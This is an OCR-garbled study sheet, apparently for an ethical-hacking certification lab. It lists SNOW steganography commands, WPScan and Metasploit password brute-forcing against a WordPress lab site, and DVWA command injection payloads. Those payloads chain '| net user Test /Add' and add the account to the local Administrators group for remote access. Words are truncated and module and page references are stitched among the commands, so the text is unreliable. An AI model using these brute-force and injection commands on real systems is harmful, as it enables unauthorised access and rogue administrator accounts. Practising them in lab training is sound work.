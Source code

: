 M-6, Page-204 V.10
M-6, Page-173 V.11
snow -C -p "password"
snow_example_encrypted.txt
or
Mod - 20 Page- 18 V.11
CryptoForge.exe


6. James, an employee of an organization, is unable to access his WordPress account
(http://172.16.0.27:8080/CEH). James informs you a the suspicious lockout of his account. You are an et hacker working with the organization; retrieve the password from the WordPress database and determ the password associated with the user id "james."

Solution: 

Mod-14 Page- 18 V.10 
wpscan --url https://example/ --enumerate u wpscan --url https://example/ --passwords wordlist.txt --usernames samson 
Mod-14 Page- 18 V.10 Mod-14 Page- 97 V.11 
use 
auxiliary/scanner/http/wordpress_login_enum 
set PASS_FILE /root/Desktop/Wordlists/Passwords.txt 
set RHOSTS [IP Address of Windows Server 2012] 
set RPORT 8080 
set TARGETURI http://[IP Address of Windows Server 2012]:8080/CEH/ 
set USERNAME admin 
Run 

Mod-14 Page- 46 V.11 
Use burpsuite 
Status=302 length 1131


7. A file named Hash.txt has been uploaded through (http://172.16.0.27:8080/DVWA). The file is located directory mentioned below. Access the file and crac MD5 hash to reveal the original message; enter the content after cracking the hash.
You can log into the DVWA using the following credentials.
X
Note: Username- admin; Password-secret123 Path:
C:\wamp64\www\DVWA\hackable\uploads\Hash.txt Hint: Use "type" command to view the file. Use the following link to decrypt the hash-
Mod-14 Page- 32 V.10
Mod-14 Page- 97 V.11
| hostname
| whoami
| user, group, and privileges
| tasklist
| dir C:\
| net user
| net user Test /Add
| net user
| net user Test
| net localgroup Administrators Test
/Add
| net user Test
Now
type file.txt (linux =cat)
use the user Test for remote